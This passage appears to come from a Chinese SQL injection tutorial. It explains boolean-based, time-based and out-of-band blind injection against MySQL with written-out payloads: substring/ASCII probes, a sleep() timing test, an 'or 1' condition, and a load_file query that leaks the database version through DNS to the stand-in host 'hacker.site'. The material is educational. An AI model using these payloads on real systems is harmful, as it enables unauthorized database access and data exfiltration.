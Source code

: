 
使用布尔型盲注来获取 MySQL 数据库数据，如查询数据库名的第一个字节的 ASCII 码十进制值是否大于 100，有如下语句：

> and ascii(substr(database(),1,1))>100

或是使用 like 的方法：

> and substr(database(),1,1) like 'm'

> and substr(database(),1,2) like 'my'

还可以使用“突破延迟注入”的方法，因为延迟注入与布尔型注入本质上是一样的，所以这个方法在这里也可以使用，如有兴趣可以查看 FreeBuf 的公开课。

还要说明一个重要的问题，PHP 与 MySQL 都是弱类型语言，在 MySQL 中你可以有 

> select passwd from users where username='xx' or 1

但是在 MSSQL、Oracle 中是

> select passwd from users where username='xx' or 1=1

好好体会思考 MySQL 的“弱”。

```
Time-based SQLi
```

延迟型盲注，原理大致如下，当一个查询结果为真时，则让对端数据库等待一定时间返回，否则立即返回，等待的表现是浏览器未刷新，对端服务器未应答。

MySQL、MSSQL 下，当查询结果为真时利用时间函数来进行休眠，而 Oracle 没有时间函数，所以 Oracle 下会通过查询大表、大数据来达到同样的目的，MySQL 下有：

> and if(ascii(substr(database(),1,1))>100,sleep(10),null)

逻辑推理注入是十分花费时间的，不得不靠工具或是小脚本来完成。Sqlmap 中，可以通过 --`technique t `，直接指定基于时间的盲注来跑。

#### Out-of-band SQLi

带外数据（`OOB`）的这种攻击方式，在各种盲攻击中都有此概念，如在 XXE 盲注。笔者对 `OOB` 型 SQL 注入的理解是，在 SQL 注入攻击中，攻击者的 Payload 代码成功执行了，但由于各种因素所致，结果无法通过 `HTTP Response` 来答复攻击者的 `HTTP Request`，攻击者也就无法从这种“信道”获取 payload 产生的数据。而 `OOB` 中，攻击者通过构造特殊的 Payload，让受害主机向指定主机发送 HTTP 请求或 DNS 查询，而这些请求报文中携带了查询结果的数据。

如 MySQL 下有：

> select load_file(concat('\\\\',version(),'.hacker.site\\a.txt'));

具体 DNS 查询报文如下图：

![img](SQL注入类型详解/4.webp.jpg)

### Second order Injection
